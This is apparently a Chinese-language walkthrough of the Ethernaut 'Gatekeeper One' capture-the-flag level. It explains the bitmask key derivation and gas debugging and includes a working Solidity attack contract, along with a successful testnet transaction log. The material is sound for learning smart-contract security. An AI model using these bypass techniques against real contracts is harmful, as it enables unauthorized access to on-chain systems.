 Make it past the gatekeeper and register as an entrant to pass this level.

##### Things that might help:

- Remember what you've learned from the Telephone and Token levels.
- You can learn more about the special function `gasleft()`, in Solidity's documentation (see [here](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [here](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```











参考答案链接：https://medium.com/coinmonks/ethernaut-lvl-13-gatekeeper-1-walkthrough-how-to-calculate-smart-contract-gas-consumption-and-eb4b042d3009

如果想要使一个x满足 uint32(x) == uint16(x)，uint16转为uint32之后的高16位必定是自动填补的0，所以保证uint32的高16位是0就可以了，那么让 x = x & 0x0000FFFF 屏蔽掉了高16位使其全部为0

如果想要使一个x满足 uint32(x) != uint64(x)，uint32转为uint64之后的高32位必定是自动填补的0，要保证高32位不同，那么让 x =  x & 0xFFFFFFFF+0000FFFF 就可保留x的高32位内容

如果想要使一个x满足 uint32(x) == uint16(tx.origin)，满足这一条让 x = tx.origin & 0x0000FFFF 就行了，和第一条重叠了

所以最终的 **bytes8 key = bytes8(tx.origin) & 0xFFFFFFFF0000FFFF;**



现在还在enterGate函数中，马上要执行CALL这个opcode，注意此时remaining gas是7149

![](gasdebug.png)

进入到enter函数中，注意此时remaining gas已经变为我们自己指定的3000了

![](gasdebug1.png)

debug到这里，注意此时opcode是GAS (Get the amount of available gas, including the corresponding reduction for the cost of this instruction) ，所以可以认为在执行gasleft()之前，一共消耗了 3000 - 2748 = 252 gas，也就是说在从进入enter函数到执行gateTwo这个modifier的gasleft()之前一共需要消耗252，如果要计算为8191的整数倍的话就是:

8,191 + 252 = 8,443

![](gasdebug2.png)





https://github.com/ethereum/remix-project/issues/147 在remix的GitHub issue里找到这个，现在remix不能自己指定发起交易能使用多少gas

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v3.4.2/contracts/token/ERC20/ERC20.sol";

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "hardhat/console.sol";

interface GatekeeperOne {
   function enter(bytes8) external returns (bool);
}

contract Hack {
    GatekeeperOne gate = GatekeeperOne(address(0xFDfe657A2Ba7c7592B3d84E8618B6ac52eC3Bf7f));

    bytes8 key = bytes8(uint64(uint160(tx.origin)) & 0xFFFFFFFF0000FFFF);

    function enterGate() public {
        (bool success,) = address(gate).call{gas: 8191 * 4 + 211}(abi.encodeWithSignature("enter(bytes8)", key));

          console.log(success);
      
    }
}
```

Gatekeeper 地址 0xFDfe657A2Ba7c7592B3d84E8618B6ac52eC3Bf7f

Hack 地址 0x0B8a25D421FAd49042E874d95D021fab2862930C

```json

status	true Transaction mined and execution succeed
transaction hash	0xed0696e5d1e64bd6f66c562e99fea6fc99f8bebbf5d05d0da2aea60667c4e678
from	0x7FA7fB4D35f0F4F3959A65098D1D9Cf69E49Ac48
to	Hack.enterGate() 0x0B8a25D421FAd49042E874d95D021fab2862930C
gas	60000 gas
transaction cost	51995 gas 
input	0xc8a...d2499
decoded input	{}
decoded output	 - 
logs	[]
val	0 wei
```

设置了gaslimit为60,000

部署到Goerli testnet上之后一切都正常了